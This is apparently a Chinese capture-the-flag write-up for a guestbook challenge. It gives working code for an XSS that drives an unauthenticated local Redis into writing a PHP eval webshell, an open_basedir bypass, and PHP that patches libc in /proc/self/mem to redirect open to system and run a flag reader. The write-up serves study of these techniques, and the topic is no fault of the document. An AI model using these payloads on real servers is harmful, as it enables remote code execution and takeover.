 在guestbook(1)的phpinfo中，发现：

![p12](http://drops.javaweb.org/uploads/images/6d5c80f5e6076ba9e1f027f0de58874a88009358.jpg)

感觉是redis未授权访问，bind 127.0.0.1:6379，结合/admin/show.php中注释里提示的uploads目录，写webshell。

于是初步的想法是通过XSS来访问redis，HTTP头会被当成无效指令，不影响其他行的执行。

```
xmlhttp=new XMLHttpRequest();xmlhttp.open("GET","http://127.0.0.1:6379",false);xmlhttp.send('flushall\r\nset a "<?php eval($_POST[c][/c]);//"\r\nCONFIG SET dir "/usr/share/nginx/html/uploads"\r\nCONFIG SET dbfilename "pkav.php"\r\nBGSAVE\r\nSAVE\r\n');

```

本地Redis测试成功，但在远程服务器上死活写不了shell，后来用nc看了一下:

![p13](http://drops.javaweb.org/uploads/images/c21ecd25473c07dfa9f77c9d23145dfb62440dc4.jpg)

发现会先发一个OPTIONS请求，目测是这个请求失败以后POST包根本没有发出去。

后来经过多次的测试发现，改用form， multipart来换行：

```
f=document.createElement('form');['CONFIG SET dir /usr/share/nginx/html/uploads/','CONFIG SET dbfilename pkav.php','SET PAYLOAD "<?php eval($_POST[1]);?>"','BGSAVE'].forEach(function(e){var i=document.createElement('input');i.name='a';i.value=e;f.appendChild(i);});f.method='POST';f.action='http://127.0.0.1:6379/';f.enctype='multipart/form-data';f.submit();

```

成功拿到webshell。

然后先利用open_basedir的bypass列出来了/目录：

![p14](http://drops.javaweb.org/uploads/images/e24605db239e3ccab1a815138fee24676a5fc2c2.jpg)

发现有个flag_reader，应该是只能通过执行flag_reader来读`/flag`文件。

利用[https://raw.githubusercontent.com/beched/php_disable_functions_bypass/master/procfs_bypass.php](https://raw.githubusercontent.com/beched/php_disable_functions_bypass/master/procfs_bypass.php)这个的思路来bypass disable_functions，不过这个脚本不能直接用，因为/lib没在open_basedir里面，帮pwner把libc跟elf从/proc/self/mem里抠了出来，本来想让他直接去算偏移硬编码进去， 他研究了一下之后说可以直接写代码段，不用改GOT表那么麻烦。

最终利用代码：

```
<?php
  $jmp_system = "\xE9\x2B\xB0\xF5\xFF";
  $system_addr = 0x46640;
  $open_addr = 0xeb610;
  $maps = file_get_contents("/proc/self/maps");
  preg_match('#([0-9a-f]+)\-[0-9a-f]+.+/.+libc\-.+#', $maps, $r);
  $libc_base = hexdec($r[1]); echo $libc_base;
  $file = fopen("/proc/self/mem", "wb");
  fseek($file, $open_addr + $libc_base);
  fwrite($file, $jmp_system, strlen($jmp_system));
  fopen("/flag_reader > /usr/share/nginx/html/uploads/pkav/xxxxxxxxxxxx.txt", 'r');
?>

```

